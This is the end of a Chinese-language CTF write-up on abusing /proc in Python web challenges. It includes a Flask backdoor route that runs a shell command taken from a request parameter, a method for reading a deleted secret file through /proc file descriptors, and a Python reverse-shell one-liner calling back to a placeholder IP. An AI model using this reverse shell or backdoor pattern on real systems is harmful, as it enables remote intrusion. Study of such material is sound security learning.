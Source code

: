 ```python
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)

```

> 观察源代码后发现关键点：`os.remove(SECRET_FILE)`，这里导致`SECRET_FILE`文件被删除了，结合上文分析可以知道，`fd`可以用来读取被删除的文件，所以只需要爆破`id`值就可以成功读取到被删除文件的内容，这里爆破出来的`id=3`

> 后面就是常规的步骤了，利用拿到的`SECRET_FILE`来反弹 shell 即可

```python
GET:
no_one_know_the_manager?key=IEcyndyXL52M6OSfyKnmz3kMIqePrpuHJVUs88J01Ko=&shell=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20211126115758-0b4f656e-4e6d-1.png)

# 小结
> 在 CTF 赛题中，`/proc`在 Web-Python 类型赛题较为常见，利用方式也有很多，除了上面实战例题中的利用方式，有时候还会通过`/proc/self/environ`来获取有用信息，或者利用`/proc`和`LFI`进行`Getshell`等等
> 在渗透测试过程中，获取内存信息(cat /proc/meminfo)、CPU 信息(cat /proc/cpuinfo)等时候，也经常会用到`/proc`目录；在进行`php`文件包含姿势的利用时往往也会用到包含`/proc/self/environ`文件这个点